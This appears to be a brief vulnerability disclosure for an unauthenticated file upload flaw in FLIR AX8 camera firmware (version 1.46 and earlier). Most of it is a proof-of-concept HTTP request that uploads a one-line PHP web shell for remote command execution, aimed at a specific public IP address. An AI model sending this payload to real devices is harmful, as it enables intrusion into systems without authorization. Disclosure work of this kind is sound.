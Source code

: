 ## Unauthority upload in FLIR AX8

### Description

In FLIR AX8 <=1.46 has an Unauthority file upload vulnerabililty

`upload.php`

```http
POST /upload.php HTTP/1.1
Host: 222.103.211.89:8004
User-Agent: Mozilla/5.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary12345
Content-Length: 200

------WebKitFormBoundary12345
Content-Disposition: form-data; name="file"; filename="malicious.php.tar"
Content-Type: application/x-tar

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary12345--
```



![image-20250526000719391](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505260007519.png)